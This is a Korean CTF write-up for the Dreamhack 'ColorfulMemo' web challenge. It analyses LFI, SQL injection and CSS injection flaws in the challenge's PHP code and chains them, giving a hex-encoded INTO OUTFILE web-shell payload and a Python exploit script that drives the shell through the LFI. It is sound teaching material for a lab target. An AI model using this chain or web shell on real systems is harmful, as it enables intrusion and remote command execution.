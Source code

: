 ```yaml
---
title: "[dreamhack] ColorfulMemo 문제 풀이"
categories:
  - dreamhack
tags:
  - dreamhack   
  - css injection
  - ssrf
  - LFI
  
toc: true
toc_sticky: true
toc_label: "ColorfulMemo 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/dreamhack.png
---
```


💡  [2022 Spring GoN Open Qual CTF] ColorfulMemo 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
문제 링크 : [https://dreamhack.io/wargame/challenges/473/](https://dreamhack.io/wargame/challenges/473/)

우선 문제를 풀기에 앞서 웹페이지의 기능은 다음과 같습니다.

**Write**

![image](https://user-images.githubusercontent.com/33647663/160804268-91cab590-393d-41ed-ac79-2e2a9cad684c.png)

**Read & Report**

![image](https://user-images.githubusercontent.com/33647663/160804363-b7f0fcb9-933f-4e8e-b8fa-0ca235b3769e.png)

기본적으로 게시글에 Report 기능이 있기 때문에 CSRF, XXE, SSRF 와 같은 스크립트를 이용한 공격에 대해서 생각해 봐야 합니다.

# 파일 분석

본론 부터 보면 문제에는 총 3개의 취약점이 있습니다.

## LFI(Local File Inclusion)

index.php 파일에서는 다음과 같은 형태로 파일들을 연결해 줍니다.
이때 Path로 입력한 값에 대한 검증이 없기 때문에
```path=../../../../tmp/shell```과 같이 입력한다면
```./../../../../tmp/shell.php``` 파일에 접근이 가능해집니다.

**index.php**
```php
<?php
    $path = $_GET["path"];
    if($path == ""){
        $path = "main";
    }
    $path = "./".$path.".php";
?>

// 중략
<div class="body">
    <?php include_once $path; ?>
</div>
```

## SQLI(SQL Injection)
대부분의 코드에서 Prepared Statement를 활용하여 원천적으로 SQL Injection이 막혀있는데, 다음 부분에서 유일하게 sql injection 공격이 가능한 포인트가 있었습니다. id 값에 대한 검증은 check.php 파일을 호출하기 전에 하고 있었으며, 이 부분을 우회한다면 sqli 공격이 가능합니다.

**check.php**
```php
<?php
if($_SERVER["REMOTE_ADDR"] == '127.0.0.1' || $_SERVER["REMOTE_ADDR"] == '::1'){
    $id = $_GET['id'];
    $mysqli = new mysqli('localhost','user','password','colorfulmemo');
    // I believe admin 
    $result = $mysqli->query('SELECT adminCheck FROM memo WHERE id = '.$id); // SQL Injection에 취약함
    if($result){
        $row = mysqli_fetch_row($result);
        if($row){
            if($row[0] != 1){
                $stmt = $mysqli->prepare('UPDATE memo SET adminCheck = 1 WHERE id = ?');
                $stmt->bind_param('i',$id);
                $stmt->execute();
                $stmt->close();
            }
        }
    }
}
else{
    die("no hack");
}
?>
```

## SSRF with CSS Injection
게시글을 read할때 다음과 같은 로직으로 구성되어 script를 차단하고 있습니다. 이때 색을 선택하는 color 부분에서 '<' , '>' 에 대한 필터링만 하고 있기 때문에 CSS Injection이 가능한 취약점이 발생했습니다. 이를 이용해서 report를 할 때 해당 게시글을 읽으면, 봇에서 스크립트가 실행되게 되어 SSRF 공격이 가능해 집니다.

**read.php**

```php
<?php
$id = $_GET["id"];

$mysqli = new mysqli('localhost','user','password','colorfulmemo');
if($mysqli){
    $stmt = $mysqli->prepare('SELECT title, color, content, adminCheck FROM memo WHERE id = ?');
    $stmt->bind_param('i',$id);
    $stmt->execute();
    $result = $stmt->get_result();
    $stmt->close();
}
else{
    die('db error');
}

$row = mysqli_fetch_row($result);
if($row){
    $title = $row[0];
    $color = $row[1];
    $color = str_replace("<", "&lt;", $color);
    $color = str_replace(">", "&gt;", $color);
    $content = $row[2];
    $adminCheck = $row[3];
}
else{
    die('no such memo');
}

<style>
    .content{
        color:<?php echo $color ?>      // CSS Injection 취약점
    }
</style>

// $title과 $content는 htmlspecialchars로 스크립트 실행 불가
<td><?php echo htmlspecialchars($title); ?></td>
<td><span class="content"><?php echo htmlspecialchars($content); ?></span></td>
```


# 시나리오

위의 3가지 취약점을 종합하여 다음과 같은 시나리오 flag를 획득합니다.

1. 게시글을 작성할 때, CSS Injection을 이용하여 악성 게시글을 report 하여 bot에서 글을 읽게 만든 후, ./check?id=[sql injection 코드] 로 작성하여 SSRF를 이용한 sql injection을 수행합니다.

2. SQL Injection 에서는 웹쉘이 서버에 생성되도록 합니다. my.cnf 파일을 보면 ```secure-file-priv= /tmp/```로 되어 있기 때문에 /tmp/shell.php로 파일을 작성합니다.

3. LFI 취약점을 이용하여 해당 경로로 접근하여 웹쉘을 실행시킵니다.


이 시나리오 대로 웹쉘이 실행되며 flag를 획득할 수 있습니다.


## CSS Injection

memoColor =  black; background: url("./check.php?id=3 union select '웹쉘' into outfile '/tmp/shell.php'")

와 같이 작성해 준다면 봇이 해당 글을 클릭하면 SSRF로 인해서 shell.php 파일이 생성됩니다.

## bypass '<','>' filtering
웹쉘을 작성할 때 주의할 점은 read.php 함수에서 다음과 같이 '<','>' 글자를 필터링 하고 있다는 것입니다.

```php
    $color = str_replace("<", "&lt;", $color);
    $color = str_replace(">", "&gt;", $color);
```

웹쉘을 다음과 같이 작성하면 필터링에 걸립니다.

```php
<?php system($_GET['cmd']); ?>
```

따라서 이 부분을 16진수로 표현하여 php에서는 필터링에 안걸리지만, mysql 에서 실행될 때, 문자열로 변환되어 실행되도록 해줍니다.

```
3 union select 0x3c3f7068702073797374656d28245f4745545b27636d64275d293b203f3e  into outfile '/tmp/shell.php'
```

## exploit.py

```python
import requests

url = "http://host1.dreamhack.games:12811/?path=write"

datas = {
    "memoTitle" : "1",
    "memoColor" : "black; background: url(\"./check.php?id=3 union select 0x3c3f7068702073797374656d28245f4745545b27636d64275d293b203f3e  into outfile '/tmp/shell.php'\")",
    "memoContent" : "123"
}

response = requests.post(url,data=datas)
# 게시글 작성 후 해당 게시글 report.
# 그러면 /tmp/shell.php 파일이 서버에 생성됩니다.

# 웹쉘 실행 코드는 아래


while(1):
    payload = input("[+] Enter the command : ")
    RESULT = requests.get("http://host1.dreamhack.games:12811" + f'/?path=../../../../../../tmp/shell&cmd={payload}').text.split('<div class="body">')[1].split('</div>')[0].strip()
    print(RESULT)
```


**게시글 작성한 뒤 해당 글을 읽을 때, check.php파일이 호출되는 모습**

![image](https://user-images.githubusercontent.com/33647663/160810280-8c1f9114-9a16-4de9-8579-b686a47bdada.png)

**report 후, 웹 쉘이 실행되어 쉘을 획득한 모습**
![image](https://user-images.githubusercontent.com/33647663/160810477-542bafb9-0b84-4331-acab-4fdf41b60899.png)

**root 디렉터리에 flag 파일이 보임**
![image](https://user-images.githubusercontent.com/33647663/160810665-b67b3615-7c2a-457f-8278-1a969d7030f6.png)